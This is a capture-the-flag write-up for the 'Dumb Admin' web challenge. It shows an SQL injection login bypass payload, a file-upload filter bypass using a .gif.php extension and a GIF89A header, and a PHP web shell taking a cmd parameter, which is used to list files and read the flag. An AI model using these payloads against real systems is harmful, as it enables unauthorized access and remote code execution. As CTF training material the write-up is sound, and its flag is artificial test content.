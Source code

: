 # Dumb Admin
> The Admin coded his dashboard by himself. He's sure to be a pro coder and he's so satisfied about it. Can you make him rethink that?

## About the Challenge
We were given a website that contain an admin panel, looks like we need to bypass the panel


[Image extracted text: DumbAdmin
Home
Dashboard
Login in Administration
Username
Password
Login
panel]


## How to Solve?
First we need to bypass the admin panel by using SQL injection payload, here is the payload I used

```
Username: admin' or true-- -
Password: testtttttttttttttt
```

After that we will see find a file upload functionaility where we can upload an image there


[Image extracted text: DumbAdmin
Home
Dashboard
Admin Dashboard
Hello Admin! Here you can upload your files
Choose a JPEG to upload (max 2KB):
Browse .
No file selected 
Upload File]


We need to do `Remote Code Execution` by uploading a malicious PHP file. But there is some filter, the website will check the extension of the file, and the header of the file. But we can bypass it by using `.gif.php` extension and add `GIF89A` as a file header


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
/ dashboard
php
HTTP / =
HTTP/2
200
Host
dubaduin
challs
dantect €
Dace;
Tue
J
2023
00:28331
GHT
Cookin
PHPSESSID=03f8661daec526f5 felOdd98de8065af
Cont ent
Type
cext/htnl
charset-UTF-8
User-Agent
Hozilla/5
(Vindovs
IT
10_
0; Vin64;
364;
rv: 109
Gecko/-O1OO101
Content
Length:
1871
Firefox/ll3
X-Pouered-By:
PHP / 7
Lccept
Expires:
Thu
Mov
1981
083 52- 00
GIIT
cext/htnl
applicat
on / *hcnltxul
applicat_
on/xnl
9-0
image
avi
inage /vebp
M{TO_
Cache-Control
store
n10 -
cache
hust-revalidate
Lccept
Language-
En=
US
en ;
Pracna:
no-cache
Accept
Encoding:
gzip,
deflace
Hagic-Funct
on-Used-By-The-
age :
exif
inagetype
Content
Type-
nultipart / forn-data;
10 Vary:
1ccept
Encoding
boundary=
31567875806823717061426544523
Scrict
Transport-Security:
HAa
age-15724800;
includeSubDomains
Content
engch:
273
10
Origin:
https
1 [dubaduin
challs
dancect f
The image
f209934239125624f98642d147--926 fb
Sif
php
has
been uploaded!
~pI>
Referer:
https: / / dubaduin
challs
dantect f
it / dashboard-php
fou
can
vied
here:
href=
12
Upgrade-Ins
cure-
Requests:
imageVieuer-php? filenane=fe0993449125624f98b4edld7ee926fb
php
Sec-Fetch-Dest
docuent
Click
here
14
Sec-Fetch-Hode
navigate
15
Sec-Fetch-Sice
sae
origin
16
Sec-Fetch-User:
2 1
Te:
crailers
31567875806823717061426544523
20
Cont
Disposit_
form-daca;
nale=
fileUploaded
filenae=
Gest
Jif-php
Content
Type:
applicat
on ( php
22
GIF891;
<php systen ( ?
GET [
cnd' ] ;
2 4
31567875808823717061426544523--
25
Seorcn;
matches
Seorcne
matches
470 -
J1 f
enc
on ;]


Now we need to access `/imageViewer.php?filename=fe0993aa9125624f98b4cd1d7ee926fb.gif.php` to obtain the full path where we can access the file that we have uploaded before


[Image extracted text: 6 -
C
8
https:/ /dumbadmin challs dantectfit /f9bbbecb61014db8f0674bf60c27e668/fe0993aa9125624f98b4cd1d7ee926fb.gif php?cmd=Is
GIF89A; d47709c7acf08409dd9412fd59bd4469.gif d527b6ff4aec9698e4f827e484d3402a.gif fe0993aa9125624f98b4cdld7ee926fb.gif-php]


The flag was located in the `/` directory


[Image extracted text: ~ 7
https:/ /dumbadmin challs dantectfit fgbbbecb61014db8f0674bf60c27e668/fe0993aa9125624f98b4cd1d7ee926fb.gif php?cmd=cat /flag txt
GIFS9A; DANTE {YOu_KnOw_how_tO_bypass_things_
PhP9Abd7BdCFF}]


```
DANTE{Y0u_Kn0w_how_t0_bypass_things_in_PhP9Abd7BdCFF}
```